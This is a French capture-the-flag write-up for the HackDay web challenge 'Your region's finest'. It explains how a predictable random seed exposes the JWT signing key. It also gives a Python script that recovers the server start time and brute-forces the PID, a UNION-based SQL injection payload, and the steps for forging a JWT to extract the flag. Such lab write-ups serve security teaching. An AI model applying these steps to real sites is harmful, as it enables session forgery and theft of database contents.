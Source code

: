 # Your region's finest

**Web**

You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"

Fichiers : app.py

---

## Inspection du code source

Sur ce challenge, on a la source (!!) du code du serveur. On peut donc inspecter cette source pour trouver des éléments intéressants dedans.

Voici une liste des éléments notables du code source.

### random.seed()

![image](_attachements/Pasted_image_20250126200021.png)

La source du random du site est basée sur le moment où le serveur a été démarré ainsi que son PID. C'est une assez mauvaise source d'aléatoire. Si l'on découvre le moment ou le serveur a été démarré, on doit pouvoir reverse l'entièreté de l'aléatoire du site.

### Clé de chiffrement des JWT
![image](_attachements/Pasted_image_20250126200351.png)

La clé de chiffrement des JWT est basé sur la source d'aléatoire précédente. Si on arrive a la reverse, on doit pouvoir forger nos propres token.

### ORM
Dans le script, on voit la présence d'un ORM, qui empêche les SQL injection quand il est bien utilisé. Cependant, on voit qu'une requête a été laissée sans protection.

![image](_attachements/Pasted_image_20250126200653.png)

On voit qu'on peut injecter des informations dans la requête SQL à l'aide du champ favorite_product_id. En regardant légèrement plus haut, on voit que ce champ provient du JWT. Il faut donc que l'on fasse notre injection via un JWT qu'on aura forgé nous même.

### Timestamp de lancement du serveur
Enfin, la dernière brique se trouve dans la requête de healthcheck.

![image](_attachements/Pasted_image_20250126201009.png)

Cette requête nous permet de savoir depuis combien de temps le serveur est en ligne, et donc en soustrayant cette valeur au timestamp auquel on fait la requête, on peut avoir le timestamp de lancement du serveur.

### Prix des produits
Enfin, on peut voir que les prix des items sont générés aléatoirement à l'initialisation du serveur. Cela nous permettra de vérifier de notre seed d'aléatoire est cohérente et de nous épargner le fait de tester la clé des JWT.

![image](_attachements/Pasted_image_20250126201517.png)


**Nous avons désormais toutes les briques pour construire notre attaque.**

## L'attaque

Commençons par récupérer le timestamp de lancement du serveur. Pour cela, on écrit le script suivant

```python

import requests  
import time  
import random  
import math  
import string
import base64
  
result = []  
for _ in range(100):  
    timeStart = time.time()  
    url = "http://challenges.hackday.fr:58990/healthz"  
    response = requests.get(url).json()["uptime"]  
    result.append(math.floor(timeStart - response))  
baseTimestamp = min(result) - 30  
# on enlève 30s par sécurité, mieux vaut être trop tôt puisque l'on va  
# tester avec plusieurs PID et qu'ils s'additionnent simplement au  
# timestamp, ils vont donc compenser ce qu'on a enlevé  
```

Ensuite, on peut bruteforcer le PID avec le script suivant :
```python
for pid in range(4194304):  
    random.seed(baseTimestamp + pid)  
    useless = "".join(random.choice(string.printable) for _ in range(32))  
    KEY = "".join(random.choice(string.printable) for _ in range(32))  
    a = random.randrange(10, 100)  
    b = random.randrange(10, 100)  
    c = random.randrange(10, 100)  
    if a == 43 and b == 58 and c == 40:
	    # Ici, les valeurs des prix des 
        print(baseTimestamp, pid)  
        print(KEY)  
        print(str(base64.b64encode(bytes(KEY, "utf-8"))))  
        break
```

On obtiens les valeurs suivantes :

![image](_attachements/Pasted_image_20250126211220.png)

On va maintenant étudier la SQL injection : 
On dispose de la requête suivante.

![image](_attachements/Pasted_image_20250126212417.png)

On ajoute donc une partie finale pour obtenir cette requête.

```sql
SELECT * FROM product WHERE id = 1 AND 1=2 UNION SELECT id, flag as name, null, null, null, null FROM flag
```

On va ensuite pouvoir faire notre propre cookie avec https://jwt.io. On commence par charger la clé en base64.

On importe notre cookie :

![image](_attachements/Pasted_image_20250126212031.png)

On le modifie avec notre SQLi :

![image](_attachements/Pasted_image_20250126212149.png)

Il nous suffit ensuite de remettre notre cookie dans le navigateur, et d'aller sur la page `/favorite_product_info`

![image](_attachements/Pasted_image_20250126212749.png)

**Flag : HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}**

nhy.
